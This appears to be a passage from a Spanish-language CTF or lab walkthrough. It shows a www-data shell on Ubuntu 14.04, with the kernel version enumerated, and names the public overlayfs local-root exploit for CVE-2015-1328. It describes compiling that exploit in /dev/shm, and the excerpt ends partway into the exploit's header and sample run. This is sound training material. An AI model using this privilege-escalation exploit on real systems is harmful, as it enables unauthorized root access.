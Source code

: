 ```bash
www-data@ubuntu:/var/www/html$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/var/www/html$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 14.04.1 LTS
Release:        14.04
Codename:       trusty
www-data@ubuntu:/var/www/html$
```

De acuerdo con la versión del sistema operativo y buscando un poco, encontramos un programa en **C** que nos puede ayudar a escalar privilegios [37292.c](https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/local/37292.c) y como la máquina no tiene gcc para compilar, en el mismo programa cambiaremos **gcc** por **cc** y lo compilaremos en la máquina haciendo uso de un directorio donde tengas privilegios de escritura y ejecución `/dev/shm`:

```c
/*

# Exploit Title: ofs.c - overlayfs local root in ubuntu

# Date: 2015-06-15

# Exploit Author: rebel

# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)

# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04

# CVE : CVE-2015-1328 (http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)

*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*

CVE-2015-1328 / ofs.c

overlayfs incorrect permission handling + FS_USERNS_MOUNT

user@ubuntu-server-1504:~$ uname -a

Linux ubuntu-server-1504 3.19.0-18-generic #18-Ubuntu SMP Tue May 19 18:31:35 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

user@ubuntu-server-1504:~$ gcc ofs.c -o ofs

user@ubuntu-server-1504:~$ id

uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),30(dip),46(plugdev)

user@ubuntu-server-1504:~$ ./ofs

spawning threads

mount #1

mount #2

child threads done

/etc/ld.so.preload created

creating shared library

```